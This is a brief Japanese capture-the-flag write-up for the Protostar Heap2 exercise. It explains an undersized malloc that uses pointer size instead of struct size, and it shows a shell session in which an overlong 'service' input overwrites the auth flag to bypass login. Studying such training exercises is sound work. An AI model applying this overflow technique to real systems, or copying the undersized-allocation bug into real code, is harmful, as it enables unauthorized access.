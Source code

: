 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/endless/exploit-exercises-protostar-heap2/
  - /blog/2016/01/23/exploit-exercises-protostar-heap2/
date: 2016-01-23T14:36:33+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap" ]
---
```


# Exploit Exercises Protostar Heap2

0,1と比較して簡単。

## [Protostar Heap2](https://exploit-exercises.com/protostar/heap2/)

``` c
struct auth {
    char name[32];
    int auth;
};

struct auth *auth;
```

に対して、

``` c
auth = malloc(sizeof(auth));
```

としてしまっている。つまり`sizeof(struct auth)`でなく`sizeof(struct auth *)`になっている。

`auth->auth`を真にするだけでよいので簡単。

``` sh
$ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x8973008, service = (nil) ]
login
please enter your password
[ auth = 0x8973008, service = (nil) ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x8973008, service = 0x8973018 ]
login
you have logged in already!
[ auth = 0x8973008, service = 0x8973018 ]
```
